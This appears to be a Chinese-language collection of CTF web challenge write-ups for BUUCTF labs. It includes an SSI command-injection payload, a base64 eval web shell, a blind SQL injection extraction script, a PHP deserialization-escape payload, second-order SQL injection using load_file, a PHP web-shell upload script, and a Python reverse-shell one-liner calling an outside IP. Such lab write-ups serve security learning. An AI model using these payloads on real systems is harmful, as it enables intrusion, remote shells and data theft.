1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 <?php ob_start(); function get_hash ( $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-' ; $random = $chars [mt_rand(0 ,73 )].$chars [mt_rand(0 ,73 )].$chars [mt_rand(0 ,73 )].$chars [mt_rand(0 ,73 )].$chars [mt_rand(0 ,73 )]; $content = uniqid().$random ; return sha1($content ); } header("Content-Type: text/html;charset=utf-8" ); *** if (isset ($_POST ['username' ]) and $_POST ['username' ] != '' ) { $admin = '6d0bc1' ; if ( $admin == substr(md5($_POST ['password' ]),0 ,6 )) { echo "<script>alert('[+] Welcome to manage system')</script>" ; $file_shtml = "public/" .get_hash().".shtml" ; $shtml = fopen($file_shtml , "w" ) or die ("Unable to open file!" ); $text = ' *** *** <h1>Hello,' .$_POST ['username' ].'</h1> *** ***' ; fwrite($shtml ,$text ); fclose($shtml ); *** echo "[!] Header error ..." ; } else { echo "<script>alert('[!] Failed')</script>" ; }else { *** } *** ?>
只需要让$_POST['password']的md5值前六位和$admin一样即可，用python爆破
1 2 3 4 5 6 import hashlibfor i in range (1000000000 ): hash = hashlib.md5(str (i).encode('utf-8' )).hexdigest() if hash [0 :6 ] == '6d0bc1' : print(i)
爆破出2020666、2305004等，随便用一个进行登入，在http请求头多个一个Url_is_hereSSI漏洞 ，那么就可以让username变量传入SSI语句来执行系统命令username=<!--#exec cmd="ls ../"-->&password=2020666username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"-->&password=2020666
https://blog.csdn.net/SopRomeo/article/details/105225341
[GKCTF2020]CheckIN 页面直接给了源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 <title>Check_In</title> <?php highlight_file(__FILE__ ); class ClassName public $code = null ; public $decode = null ; function __construct ( { $this ->code = @$this ->x()['Ginkgo' ]; $this ->decode = @base64_decode( $this ->code ); @Eval ($this ->decode); } public function x ( { return $_REQUEST ; } } new ClassName();
可以命令执行，将phpinfo();base64编码之后进行传参?Ginkgo=cGhwaW5mbygpOw== 看到php版本是7.3，还禁用了一堆函数
尝试上传一句话 eval($_POST['1']) 用蚁剑连接 ?Ginkgo=ZXZhbCgkX1BPU1RbJzEnXSk=
在php7.0-7.3版本中存在绕过disable_functions的漏洞，直接利用大佬的exp readflag，然后上传到/tmp目录，最后用文件包含获得flag?Ginkgo=aW5jbHVkZSgnL3RtcC8xLnBocCcpOw==https://blog.csdn.net/freerats/article/details/106585042
[Black Watch 入群题]Web 页面点一点，感觉没啥东西，用burp suite抓包再点击热点列表找到了注入点

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 import requestsimport timeimport jsonurl='http://d5a5d49b-2511-447f-ab1e-115d9ee469b3.node3.buuoj.cn/backend/content_detail.php?id=' flag='' for i in range (1 ,100 ): low=32 high=127 mid=(low+high)//2 while (high>low): payload='1^(ascii(substr((select(group_concat(password))from(admin)),{},1))>{})^1' .format (i,mid) r=requests.get(url+payload) text=str (r.json()) time.sleep(0.1 ) if "札师傅缺个女朋友" in text: low=mid+1 else : high=mid mid=(low+high)//2 if (chr (mid)==" " ): break flag+=chr (mid) print(flag)
输入第二组用户密码即可获得flag
[0CTF 2016]piapiapia 知识点：反序列化字符串逃逸
先了解一下反序列化字符串逃逸，举个例子
1 2 3 4 5 6 7 8 <?php $a ['name' ]='admin' ;$a ['pass' ]='passwd' ;$a ['email' ]='xxx@xx.com' ;echo serialize($a );结果：a:3 :{s:4 :"name" ;s:5 :"admin" ;s:4 :"pass" ;s:6 :"passwd" ;s:5 :"email" ;s:10 :"xxx@xx.com" ;} ?>
反序列化
1 2 3 4 5 6 7 8 9 10 11 <?php $s ='a:3:{s:4:"name";s:5:"admin";s:4:"pass";s:6:"passwd";s:5:"email";s:10:"xxx@xx.com";}' ;var_dump(unserialize($s )); 结果： array (3 ) { ["name" ]=> string (5 ) "admin" ["pass" ]=> string (6 ) "passwd" ["email" ]=> string (10 ) "xxx@xx.com" } ?>
但是如果伪造拼接这段序列化的字符串，将passwd替换成 passwd";s:5:"phone";s:11:"12312312300";}
1 2 3 4 5 6 7 8 9 10 11 <?php $s ='a:3:{s:4:"name";s:5:"admin";s:4:"pass";s:6:"passwd";s:5:"phone";s:11:"12312312300";}";s:5:"email";s:10:"xxx@xx.com";}' ;var_dump(unserialize($s )); 结果： array (3 ) { ["name" ]=> string (5 ) "admin" ["pass" ]=> string (6 ) "passwd" ["phone" ]=> string (11 ) "12312312300" } ?>
可以看到成功将email替换成phone，a:3确定了该数组只有三个键值对，所以反序列化提前结束，并且丢弃了后面的内容。
了解完反序列化字符串提逃逸，返回过来看题目，首页是一个登陆框。扫描一下目录，存在www.zip泄漏，获取页面源码
1 2 3 4 5 6 7 <?php $config ['hostname' ] = '127.0.0.1' ; $config ['username' ] = 'root' ; $config ['password' ] = '' ; $config ['database' ] = '' ; $flag = '' ; ?>
profile.php（节选）
1 2 3 4 5 6 7 8 9 10 11 <?php require_once ('class.php' ); $username = $_SESSION ['username' ]; $profile =$user ->show_profile($username ); $profile = unserialize($profile ); $phone = $profile ['phone' ]; $email = $profile ['email' ]; $nickname = $profile ['nickname' ]; $photo = base64_encode(file_get_contents($profile ['photo' ])); ?>
class.php（节选）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 <?php require ('config.php' );class user extends mysql private $table = 'users' ; public function show_profile ($username $username = parent ::filter($username ); $where = "username = '$username '" ; $object = parent ::select($this ->table, $where ); return $object ->profile; } public function update_profile ($username , $new_profile $username = parent ::filter($username ); $new_profile = parent ::filter($new_profile ); $where = "username = '$username '" ; return parent ::update($this ->table, 'profile' , $new_profile , $where ); } } class mysql private $link = null ; public function filter ($string $escape = array ('\'' , '\\\\' ); $escape = '/' . implode('|' , $escape ) . '/' ; $string = preg_replace($escape , '_' , $string ); $safe = array ('select' , 'insert' , 'update' , 'delete' , 'where' ); $safe = '/' . implode('|' , $safe ) . '/i' ; return preg_replace($safe , 'hacker' , $string ); } }
update.php（节选）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php require_once ('class.php' ); $username = $_SESSION ['username' ]; if (!preg_match('/^\d{11}$/' , $_POST ['phone' ])) die ('Invalid phone' ); if (!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/' , $_POST ['email' ])) die ('Invalid email' ); if (preg_match('/[^a-zA-Z0-9_]/' , $_POST ['nickname' ]) || strlen($_POST ['nickname' ]) > 10 ) die ('Invalid nickname' ); $file = $_FILES ['photo' ]; if ($file ['size' ] < 5 or $file ['size' ] > 1000000 ) die ('Photo size error' ); move_uploaded_file($file ['tmp_name' ], 'upload/' . md5($file ['name' ])); $profile ['phone' ] = $_POST ['phone' ]; $profile ['email' ] = $_POST ['email' ]; $profile ['nickname' ] = $_POST ['nickname' ]; $profile ['photo' ] = 'upload/' . md5($file ['name' ]); $user ->update_profile($username , serialize($profile )); echo 'Update Profile Success!<a href="profile.php">Your Profile</a>' ; } ?>
重点在于profile.php，file_get_contents函数可以读取文件，所以需要让$profile['photo']变量的值为config.php，这样就可以读取flag。看源码，$profile['photo']需要经过update_profile和filter，而filter可以将字符串替换,where替换成hacker就会导致字符串长度加一，那么就可以利用反序列化逃逸将nickname后面的值替换成我们伪造的值，把photo改成config.php。而nickname可以传入一个数组来绕过update.php的长度限制。
简单的说就是利用fiter函数替换字符串，导致字符串长度增加，将我们伪造的config.php挤到photo的位置。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 原来的值 a:4 :{s:5 :"phone" ;s:11 :"12345678901" ;s:5 :"email" ;s:14 :"test@admin.com" ;s:8 :"nickname" ;a:1 :{i:0 ;s:0 :"" ;}s:5 :"photo" ;s:39 :"upload/f3ccdd27d2000e3f9255a7e3e2c48800" ;} Array ( [phone] => 12345678901 [email] => test@admin.com [nickname] => Array ( [0 ] => ) [photo] => upload/f3ccdd27d2000e3f9255a7e3e2c48800 ) 可以伪造成 a:4 :{s:5 :"phone" ;s:11 :"12345678901" ;s:5 :"email" ;s:14 :"test@admin.com" ;s:8 :"nickname" ;a:1 :{i:0 ;s:0 :"" ;}s:5 :"photo" ;s:10 :"config.php" ;}:39 :"upload/f3ccdd27d2000e3f9255a7e3e2c48800" ;} Array ( [phone] => 12345678901 [email] => test@admin.com [nickname] => Array ( [0 ] => ) [photo] => config.php )
在nickname后面添加";}s:5:"photo";s:10:"config.php";}一共是34个字符，就需要用34个where, 这样就成功将photo修改成config.php就可以成功读取flag。
最终payload:nickname[]=wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
https://www.cnblogs.com/g0udan/p/12216207.html https://blog.csdn.net/zz_Caleb/article/details/96777110
[V&N2020 公开赛]CHECKIN 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 from flask import Flask, requestimport osapp = Flask(__name__) flag_file = open ("flag.txt" , "r" ) @app.route('/shell' def shell (): os.system("rm -f flag.txt" ) exec_cmd = request.args.get('c' ) os.system(exec_cmd) return "1" \ @app.route('/' def source (): return open ("app.py" ,"r" ).read() if __name__ == "__main__" : app.run(host='0.0.0.0' )
在源码中可以看到已经删除了 flag.txt ，同时还可以用参数 c 进行命令执行
知识点： 在linux里，当一个进程打开某个文件直到关闭前，该进程会获得文件描述符，而文件描述符里有文件的内容，即便已经将文件删除，只是删除了其相应的目录索引节点，若进程依然存在没被关闭的话，就依然可以通过文件提供给它的文件描述符进行操作。/proc/[pid]/fd这个目录里包含了进程打开文件的情况，pid就是进程记录的打开文件的序号。
直接反弹一个shell，在BUU开个小号接收反弹shell
1 python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
然后 cat /proc/*/fd/* 获得flag
https://blog.csdn.net/SopRomeo/article/details/105653176
[CISCN2019 华北赛区 Day1 Web5]CyberPunk 在index.php的源码最下面提示 ?file
利用伪协议来读取index.php、search.php、change.php、delete.php、config.php
获取全部的页面的代码，为了防止SQL注入，过滤了很多东西。但是在change.php中，地址参数 address 只使用了 addslashes 函数。而且在sql语句中地址更新的时候需要使用旧地址。那么就可以进行二次注入了
search.php
1 2 3 4 5 6 7 8 9 10 11 12 $address = addslashes($_POST ["address" ]);if (isset ($fetch ) && $fetch ->num_rows>0 ){ $row = $fetch ->fetch_assoc(); $sql = "update `user` set `address`='" .$address ."', `old_address`='" .$row ['address' ]."' where `user_id`=" .$row ['user_id' ]; $result = $db ->query($sql ); if (!$result ) { echo 'error' ; print_r($db ->error); exit ; }
在地址栏将payload输入，然后修改收货地址，这样就可以将旧的地址的语句带入SQL语句中，造成二次注入
1 2 1 "' where user_id=updatexml(1,concat(0x7e,(select left(load_file('/flag.txt'),32)),0x7e),1)# 1" ' where user_id=updatexml(1,concat(0x7e,(select right(load_file(' /flag.txt'),32)),0x7e),1)#
[NPUCTF2020]ezinclude 用burp suite将cookie的值以GET方式传入参数pass，在请求包里发现了 flflflflag.phpflflflflag.php 存在文件包含漏洞flflflflag.php、index.php、config.php和 dir.php
flflflflag.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <html> <head> <script language="javascript" type="text/javascript" > window.location.href="404.html" ; </script> <title>this_is_not_fl4g_and_出题人_wants_girlfriend</title> </head> <> <body> <?php $file =$_GET ['file' ];if (preg_match('/data|input|zip/is' ,$file )){ die ('nonono' ); } @include ($file ); echo 'include($_GET["file"])' ;?> </body> </html>
dir.php
1 2 3 <?php var_dump(scandir('/tmp' )); ?>
这里涉及到PHP7.0的bug： 使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录，再进行文件名爆破就可以getshell，但是dirb.php已经给了 /tmp 的目录。所以可以直接利用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import requestsfrom io import BytesIOimport reurl="http://077a8f6c-7365-4876-a0c7-784fd5b50821.node3.buuoj.cn/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd" payload = "<?php eval($_POST[cmd]);?>" data={ 'file' : BytesIO(payload.encode()) } try : r=requests.post(url=url,files=data,allow_redirects=False ) except : print("fail!" )
访问 dir.php 获得文件名，flag在phpinfo
https://shawroot.cc/archives/1159